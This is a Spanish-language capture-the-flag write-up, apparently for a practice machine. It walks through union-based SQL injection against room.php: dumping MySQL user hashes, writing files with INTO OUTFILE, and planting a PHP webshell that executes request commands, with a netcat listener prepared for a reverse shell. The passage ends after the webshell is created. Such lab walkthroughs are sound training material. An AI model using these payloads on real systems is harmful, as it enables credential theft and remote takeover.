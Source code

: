 #### Aprovechando de la mysql db {-}

Como existe una tabla my_sql probamos a ver si encontramos usuarios y contraseña para esta base de datos.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,group_concat(User,0x3A,Password),4,5,6,7 from mysql.user -- -
```

Vemos que existe el usuario DBAdmin con un hash de contraseña, si tiramos de Rainbow Tables como [CrackStation](https://crackstation.net/) vemos la contraseña
en texto claro.

Teniendo esto en cuenta, podriamos aprovechar de connectarnos a la routa `/phpmyadmin/` para lanzar commandos.


#### Using SQL Injection para crear ficheros {-}

Mirando las columnas de la tabla **hotel**, nos damos cuenta que no hay informaciones relevante como usuarios o contraseña. Aqui pensamos que los
tiros no van para el mismo camino. Miramos si tenemos capacidad de escritura.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,"Hola esto es una prueba",4,5,6,7 into outfile "/var/www/html/prueba.txt" -- -
```

Aqui intentamos crear un fichero prueba.txt que creamos en una de las routas mas communes, y si lanzamos el commando y que navegamos por 
`http://10.10.10.143/prueba.txt` vemos el contenido.

```bash
http://10.10.10.143/room.php?cod-1 union select 1,2,"<?php system('whoami'); ?>",4,5,6,7 into outfile "/var/www/html/prueba.php" -- -
```

Aqui vemos www-data como usuario. Vamos a intentar ganar accesso al systema.

> [ ! ] NOTAS: todo esto se podria hacer de la misma manera desde el panel `phpmyadmin`

## Vuln exploit & Gaining Access {-}

### S4vishell desde un SQL Injection {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos la s4vishell.php desde el SQL Injection

    ```bash
    http://10.10.10.143/room.php?cod-1 union select 1,2,"<?php system($_REQUEST['cmd']); ?>",4,5,6,7 into outfile "/var/www/html/s4vishell.php" -- -
    ```
